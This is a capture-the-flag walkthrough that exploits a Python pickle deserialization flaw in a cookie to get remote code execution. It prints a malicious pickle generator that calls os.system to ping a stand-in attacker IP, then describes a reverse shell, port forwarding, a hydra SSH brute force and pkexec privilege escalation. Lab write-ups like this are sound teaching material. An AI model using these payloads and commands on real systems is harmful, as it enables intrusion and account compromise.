Through scanning I found only one port is open, 5003. Running http. <br/>
Give a visit to the page.  <br/>
 <br/>
While `robots.txt` gives some error. <br/>
 <br/>
Reveals some page. But that didn't work. So observing the pages I understand It is a python base server. And as it is a CTF room, the home page pronounces pickle so much. So it could have a pickle base vulnerability. After some testing I found the cookie. <br/>
 <br/>
It is a **base64-encoded Python pickle object**.  <br/>
Search with the word `chocolate`. <br/>
 <br/>
Returns search result and cookie. <br/>
 <br/>
Using the following python script I decrypt it. 
```python
import pickle
import base64

encoded = "gASVJQAAAAAAAACMIV9faW1wb3J0X18oJ29zJykuc3lzdGVtKCd3aG9hbWknKZQu"
data = pickle.loads(base64.b64decode(encoded))

print(data) 
print(type(data))
```
<br/>
The result: <br/>
 <br/>
For testing deserialization vulnerability using the following code to create a pickle payload.
```python3
import pickle
import base64
import os

class Malicious:
    def __reduce__(self):
        # Execute system command
        return (os.system, ('ping <attacker_ip> -c 5',))

# Create malicious pickle
malicious = base64.b64encode(pickle.dumps(Malicious()))
print(malicious)
```
It will ping my ip address that confirms the vulnerability. <br/>
 <br/>
Opened a icmp listener with `tcpdump`. <br/>
 <br/>
Copy the payload and replace it with the cookie. And send it. <br/>
 <br/>
Got the following. <br/>
 <br/>
Then I create a pyload with for reverse shell with the same script. And again change it with the cookie. And got the shell. <br/>
 <br/>
 <br/>
In `/` directory I found `.dockerenv`. So I am inside a container. <br/>
 <br/>
While enumerating I found the following in the `/root/.bash_history`. <br/>
 <br/>
Two new IP addresses. `172.17.0.1` and `172.17.0.2`. From linpeas I found that the second IP is docker ip. <br/>
 <br/>
Need to look for the first one. <br/>
 <br/>
Using `linpeas.sh` I performed network scanning for the Ip. And found two open ports.  <br/>
 <br/>
Using penelope port forwarding I performed port forwarding.  <br/>
**penelope is very handy, gives many facilities, and makes easier penetration testing. A [article](https://www.hackingarticles.in/penelope-a-modern-alternative-to-netcat-for-red-teamers/) about the usage. Gihub [repo](https://github.com/brightio/penelope.git)** 
```bash
portfwd <attacker_ip>:<port> -> <victim_ip>:<port>
```
 <br/>
After that I performe bruteforcing for ssh. <br/>
```bash
hydra -l ramsey -P /usr/share/wordlist/rockyou.txt <attacker_ip> ssh -s <port>
```
 <br/>
Using the password I logged in as `ramsey`.  <br/>
 
# Privilege Escalation
I ran `linpeas.sh` and found that it has pkexec vulnerability. <br/>
 <br/>
Abusing this I got root shell. <br/>
 <br/>